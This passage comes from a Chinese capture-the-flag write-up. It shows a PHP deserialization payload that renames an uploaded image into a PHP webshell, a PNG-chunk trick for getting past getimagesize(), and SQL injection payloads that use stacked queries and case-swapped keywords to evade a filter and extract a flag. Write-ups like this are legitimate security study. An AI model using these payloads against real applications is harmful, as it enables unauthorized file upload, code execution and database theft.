 ```php
    {
        $this->checker=null;
        $this->index = "upload_img";
        $this->upload_menu= "6f65da3924c6557308caff5b2801eed4";
        $this->ext = true;
        $this->filename_tmp = "../public/upload/6f65da3924c6557308caff5b2801eed4/0a7b8575f81e6d28645879810e6f43a9.png";
        $this->filename = "../public/upload/6f65da3924c6557308caff5b2801eed4/a.php";
    }
}

class Register
{
    public $checker;
    public $registed = false;

    public function __construct()
    {
        $this->checker=new Profile();
    }

}
$t = new Register();
$t = serialize($t);
echo urlencode(base64_encode($t));
```

关于 webshell，只需要在 PNG 头部与第一个 CHUNK 之间插入文本数据就可以绕过`getimagesize()`函数。

![upload](./img/2019-qwb-1.png)

## 随便注

非常直接的 sql 注入，发现过滤了`select|update|delete|drop|insert|where|.`，尝试报错注入`1' and extractvalue(1,concat(0x7e,(database()),0x7e))+--+`可以输出一些信息，但是由于过滤的`select`都很难利用。

后来队友发现可以使用堆叠注入，而且`set`和`prepare`似乎被过滤，使堆叠注入的方向明确了起来。`strstr($inject, "set") && strstr($inject, "prepare")`，由于使用的是大小写敏感的 strstr，便可用大小写轻松绕过。最后的攻击流程是

```sql
#查询表名
;sEt @sql = concat('S','ELECT table_schema, table_name FROM information_schema',0x2e,'tables wh','ere table_schema = supersqli');Prepare stmt from @sql;execute stmt;--
#查询列名
;sEt @sql = concat('S','ELECT table_name, column_name FROM information_schema',0x2e,'columns wh','ere table_name = 1919810931114514');Prepare stmt from @sql;execute stmt;--
#打出flag
;sEt @sql = concat('S','ELECT flag,2 from `1919810931114514`');Prepare stmt from @sql;execute stmt;--
#
```
